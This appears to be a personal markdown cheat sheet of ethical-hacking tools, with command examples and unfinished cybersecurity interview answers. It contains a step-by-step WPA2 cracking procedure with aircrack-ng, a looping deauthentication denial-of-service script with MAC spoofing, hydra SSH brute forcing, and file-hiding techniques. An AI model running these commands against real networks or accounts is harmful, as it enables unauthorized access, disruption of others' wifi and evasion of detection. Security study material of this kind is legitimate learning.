

# Ethical Hacking Tools


## Netcat
- ## Computer networking utility for reading from and writing to network connections using TCP or UDP

## Wireshark
- ## Packet analyzer

## Crunch
- ## Wordlist Generator 
  ```sh
  # @ lower case
  # , upper case
  # % digit
  # ^ special symbol

  # Cellphone number
  crunch 10 10 -t 09%%%%%%%% -o wordlist.txt
  ```
## Aircrack-ng
- ## A complete suite of tools to assess WiFi network security

## Nmap
- ## Port scanning
```sh
nmap -sn 10.0.0.0/24
nmap --traceroute <domain>
nmap --script vuln <domain>
proxychains nmap -sT -p 80,443 <domain>
```


## Hydra
- ## Brute forcer
```sh
hydra -l evan -P wordlist.txt <domain> ssh
```
## Hashcat
- ## Password recovery utility
```sh
hashcat -a 0 -m 1400 -o crackedpassword.txt hash.txt wordlist.txt  
```

## Nikto, Nessus, OpenVas
- ## Vulnerability scanning

## Metasploit
- ## For penetration testing

## SQLMap
- ## For SQL Injection

## John The Ripper
- ## Password cracker
  
## LOIC
- ## For DDoS

## VirusTotal
- ## Analyze suspicious files and URLs to detect types of malware

## Pwntools
- ## A CTF framework and exploit development library

## BeEF
- ## A penetration testing tool focusing on the web browser
---

# 8 Types of Cyber Threats


---

# CIA Triad


---

# Using DNS to Get Information
 ```sh
 whois <domain>
 dig <domain>
 host <domain>
 ```
---
# IDS (Intrusion Detection System)


---
# Crack Wifi WPA2 Using Aircrack-ng
```sh
iwconfig
# Make sure you don't have any conflicting process
airmon-ng check kill
# Start monitor mode
airmon-ng start wlo1
# Check that interface is in monitor mode
iwconfig
# Discover access points of wireless networks
# You need "BSSID" and "Channel"
airodump-ng wlo1mon
# Capture handshake packets
airodump-ng --bssid <AP_MAC_ADDRESS> -c <AP_CHANNEL> -w /home/evan/cracking-example/handshake wlo1mon
# Deauthenticate clients from the network
aireplay-ng -0 10 -a <AP_MAC_ADDRESS> wlo1mon
# Generate password list
crunch 1 10 -f /usr/share/crunch/charset.lst lalpha-numeric -o wordlist.txt
# Crack
aircrack-ng -w /home/evan/cracking-example/wordlist.txt /home/evan/cracking-example/handshake-01.cap
# Stop monitor mode
airmon-ng stop wlo1
```

---

# DOS
```sh
while true
do
    aireplay-ng -0 10 -a <AP_MAC_ADDRESS> wlo1
    ifconfig wlo1 down
    macchanger -r wlo1
    iwconfig wlo1 mode monitor
    ifconfig wlo1 up
    sleep 5
done
```
---
# How Hackers Hide Files on **Windows** and **Linux**

```cmd
rem Windows cmd
type secretfile.txt > nothing.txt:secretfile.txt
del secretfile.txt
notepad nothing.txt:secretfile.txt
dir /r

attrib +h nothing.txt
dir /a
```
```sh
# Linux
# use a file hiding technique called steganography
apt install steghide -y
steghide embed -cf nothing.jpg -ef secretfile.txt
steghide extract -sf nothing.jpg 
```


---
# Interview Questions

## 1. What do you mean by Cybersecurity?
> ## Cybersecurity is the combination of processes, practices, and technologies designed to protect networks, programs, data and information from attack, damage, or unauthorized access.

## 2. What do you have on your home network?
> ## A home network gives you a test environment for experimentation.

## 3. What is Encryption? Why is it important?
> ## A process of converting data into an unreadable form to ensure confidentiality.

## 4. What is the difference between symmetric and asymmetric encryption?
> 

## 5. What do you understand by risk, vulnerability, and threat in a network?
> ## Threat refers to someone with the potential to do harm to a system or an organization. 
> ## Vulnerability refers to a weakness of an asset that can be exploited by one or more attackers. In other words, it is an issue or bug that allows an attack to be successful.
> ## Risk refers to the potential for loss or damage when a threat exploits a vulnerability.

## 6. Can you explain SSL/TLS?
> ## SSL/TLS is a protocol which enables safe conversation between two or more parties. It is designed to identify and verify that the person you are talking to on the other end is who they say they are.
 
## 7. What are salted hashes?
> 

## 8. What are **Proxy Chains**?
> ## Proxy chains help hide yourself from the target!
> https://steemit.com/cn/@antonsteemit/proxychains
